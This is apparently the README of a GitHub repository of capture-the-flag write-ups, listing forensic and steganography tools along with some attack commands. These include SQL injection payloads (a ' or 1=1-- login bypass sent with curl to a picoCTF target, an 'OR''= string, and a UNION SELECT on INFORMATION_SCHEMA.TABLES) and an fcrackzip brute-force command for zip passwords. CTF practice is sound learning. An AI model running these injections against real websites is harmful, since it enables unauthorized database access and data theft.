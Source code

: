# WinterCTF
This Repo Contains Write-UPs for all Tasks 
HERE ARE SOME EXTREMELY USEFUL TOOLS AND COMMANDS


SOME Useful Tools, links and commands


1)binwalk -e <filenam> : //Extracts hidden files

2)steghide extract -sf <filename> : //Extracts hidden text in the image

3)xxd <file name> : //Prints the Hex version of file

4)grep "element" //finds the element

5)strings <filename> // gives the strings hidden in the file

6)hexedit <filename>

7)java -jar steghide.jar

8)pngcheck <filename>

9)tar -xvf <filename>

10)cat temp.txt | cut -d'(' -f2 | sort -n | cut -d"'" -f2 | tr -d "\n" ; echo      // used this command to obtain the flag from the java file having flag characters written in an scrambled order 

11)fcrackzip -u -l 10-11 -c a1 -p IEC2019000 findME.zip     
// this command helps us to find the password to a zip. -u : unzip -l: range of length -c: type of elements a1 means alphabets and numbers -p:sample password 

12)ltrace ./file     is a helphul command to see the functioning of a program
also use strace

13)Esoteric languages(pikalang, 2dfuck, brainfuck) use tio.run website, Malboge an esoteric language that looks like base 85.

14)curl "https://2019shell1.picoctf.com/problem/4162/login.php" --data "username=admin&password='+or+1=1--" && echo 
   this command will find the password to username admin stored in database.

15)Robots -->>> url/robots.txt (shows hidden info)

16)cat /proc/(process id)/             
    we can see all files running in the process with given process id.

17)use tcpflow -r file  for pcap

18)exiftool for meta data

19) git show -1 filename.txt > to compare against the last revision of file
    git show -2 filename.txt > to compare against the 2nd last revision of file

20)Basic Injection  if there is a hidden info in the data base then to leak the data type 'OR''=' in the info bar.

21) 1 union select 1,TABLE_NAME, 3,4 from INFORMATION_SCHEMA.TABLES     input this code in the info bar of a website for sql attack using injection.
